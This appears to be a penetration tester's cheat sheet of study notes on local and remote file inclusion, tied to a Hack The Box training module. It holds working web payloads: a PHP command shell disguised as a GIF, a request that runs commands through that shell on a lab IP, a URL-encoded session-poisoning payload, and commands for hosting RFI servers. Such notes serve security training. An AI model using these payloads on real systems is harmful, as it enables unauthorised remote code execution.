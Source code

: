 # file_inclusion

Created: April 1, 2025 11:26 PM
Tags: directory traversal, fuzzing, lfi, log poisoning, rce, rfi, session poisoning

Always start checking File Inclusion by the following algo:

1. Start by trying to include files from the webserver directory
2. Continue by trying to access local host resources
3. Check filters (data / input / expect)
4. Check self-hosted RFI

For RFI, good practice is hosting using common ports like 80 or 443, they are likely to be whitelisted on firewall

Ways to perform RFI:

```bash
sudo python3 -m http.server <LISTENING_PORT>
```

```bash
sudo python -m pyftpdlib -p 21
```

```bash
impacket-smbserver -smb2support share $(pwd)
```

RCE via LFI+File upload+Execution

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```bash
http://94.237.62.255:44809/index.php?language=./profile_images/shell.gif&cmd=id
```

PHP Session Poisoning

```bash
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Server Log poisoning via User Agent

![image.png](file_inclusion%201c8021737a89807d8365fbb719679bbe/image.png)

![image.png](file_inclusion%201c8021737a89807d8365fbb719679bbe/image%201.png)

Log location could be found using [LFI wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI). Amazing one is LFI-Jhaddix.txt.
More on [HTB module](https://academy.hackthebox.com/module/23/section/252)

![image.png](file_inclusion%201c8021737a89807d8365fbb719679bbe/image%202.png)

Top LFI parameters:

[File Inclusion/Path traversal - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters)

---

[File_Inclusion_Module_Cheat_Sheet.pdf](file_inclusion%201c8021737a89807d8365fbb719679bbe/File_Inclusion_Module_Cheat_Sheet.pdf)